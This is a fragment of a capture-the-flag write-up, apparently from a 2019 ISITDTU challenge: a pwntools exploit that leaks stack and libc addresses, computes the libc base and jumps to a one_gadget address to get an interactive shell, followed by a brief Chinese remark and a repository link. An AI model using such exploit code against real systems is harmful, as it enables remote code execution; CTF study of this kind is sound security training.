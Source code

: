 ```python
stack=u64(p.read(6).ljust(8,'\x00'))
p.sendlineafter(": ",chr(0x80&0xff))
base=u64(p.readuntil("Please")[-12:-6].ljust(8,'\x00'))-(0x7ffff7711b70-0x7ffff765b000)
libc.address=base
pay="n132"
one=0x4f322
p.sendlineafter(": ",pay)
p.sendlineafter(": ",p64(one+base))
log.warning(hex(base))
p.interactive()

```
本来挺简单的题目我绕了好几个弯...


[1]: https://github.com/n132/WriteUps/tree/master/2019_ISITDTU